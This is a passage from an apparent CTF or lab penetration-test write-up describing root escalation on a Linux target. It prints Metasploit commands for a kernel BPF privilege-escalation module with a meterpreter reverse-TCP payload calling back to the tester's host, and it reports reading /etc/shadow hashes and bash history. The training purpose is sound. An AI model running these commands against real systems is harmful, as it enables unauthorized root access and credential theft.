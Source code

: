 #### **Exploit Execution**
The **Metasploit Framework** was used to exploit the system. Based on the previous enumeration, the `exploit/linux/local/bpf_sign_extension_priv_esc` module was chosen as it's known to affect the identified kernel version.

```Bash
use exploit/linux/local/bpf_sign_extension_priv_esc
set SESSION 1
set LHOST <local_IP/tun0>
set LPORT 4445
set PAYLOAD linux/x64/meterpreter/reverse_tcp
run
```

#### Result

The exploit was successful, and a new **meterpreter session** with **root** privileges was obtained. This confirmed a complete system compromise.

## ROOT:
![Acces root](/assets/images/posts/atrium-report/root.png )

---

### **Captured Flags and Findings**
Throughout the engagement, a number of flags and key pieces of information were retrieved, confirming successful compromises at various stages.
- **Initial Flags:**    
    - `flag.txt` found via anonymous FTP access.        
    - `FLAGH{BYPASSING_HTTP_METH=DS_G00D!}` obtained from the `/login_2/` endpoint by bypassing the login form with a POST request.        
    - `flag.txt` found on the web server.    

- **Privileged Findings:**    
    - *Root Flag:* A final flag, located in a restricted directory, was captured after gaining `root` access.        
    - *User Hash:* The hash for the `deloitte` user was found in the `/etc/shadow` file.        
    - *.bash_history:* The `.bash_history` file provided valuable insights into the commands executed on the system by the local users.